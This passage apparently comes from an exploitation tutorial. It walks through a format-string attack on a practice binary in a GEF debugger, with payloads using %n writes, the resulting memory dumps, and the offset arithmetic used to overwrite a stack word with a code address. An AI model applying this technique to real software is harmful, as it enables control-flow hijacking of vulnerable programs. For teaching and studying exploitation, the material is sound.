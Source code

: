 ```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%2052u" + "%7$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%2052u" + "%7$n"')
��������

gef➤  x/50wx $esp
0xffffcfcc:	0xf7ddbee5	0x00000002	0xffffd064	0xffffd070
0xffffcfdc:	0x99ba91b6	0xf7fa0000	0x00000000	0xffffd048
0xffffcfec:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffcffc:	0xf7fa8000	0x00000000	0x2694ebfe	0x62760dee
0xffffd00c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd01c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd02c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd03c:	0x080490d6	0x080491b6	0x00000002	0xffffd064
0xffffd04c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd05c
0xffffd05c:	0x0000001c	0x00000002	0xffffd238	0xffffd27d
0xffffd06c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd07c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd08c:	0xffffd3a2	0xffffd3b8
```

You can see that I added a second address that is shifted on 2 bytes. Next, decrease the value `37298` on 4 bytes, cause the n specifier will write the number of bytes which we wrote before and we wrote an additional 4 bytes. Next, after the `%6$n` I added a new `%u` specifier and after it `%7$n` so, the program will write to the next address after the first address. Also, you can see that the program contains the value `0x99ba91b6` at the address `0xffffcfdc`.

We wrote to this address value 37294 + 2052 + 8 bytes as 2 address = `0x99ba`. Thus, we can't write another 2 bytes too easily. Need to overflow the value `0xfff` and then write the value `0x0804`. `0xffff` + `0x0804` - `0x91b6` - `0x8` = `30285`. With a little guess it is easy to determine the true value in the second `u` specifier.

```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%30285u" + "%7$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%30285u" + "%7$n"')
��������

gef➤  x/50wx $esp
0xffffcfcc:	0xf7ddbee5	0x00000002	0xffffd064	0xffffd070
0xffffcfdc:	0x080391b6	0xf7fa0001	0x00000000	0xffffd048
0xffffcfec:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffcffc:	0xf7fa8000	0x00000000	0xa6c21c38	0xe220fa28
0xffffd00c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd01c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd02c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd03c:	0x080490d6	0x080491b6	0x00000002	0xffffd064
0xffffd04c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd05c
0xffffd05c:	0x0000001c	0x00000002	0xffffd237	0xffffd27c
0xffffd06c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd07c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd08c:	0xffffd3a2	0xffffd3b8
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%30286u" + "%7$n"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%37294u" + "%6$n" + "%30286u" + "%7$n"')
��������

gef➤  x/50wx $esp
0xffffcfcc:	0xf7ddbee5	0x00000002	0xffffd064	0xffffd070
0xffffcfdc:	0x080491b6	0xf7fa0001	0x00000000	0xffffd048
0xffffcfec:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
```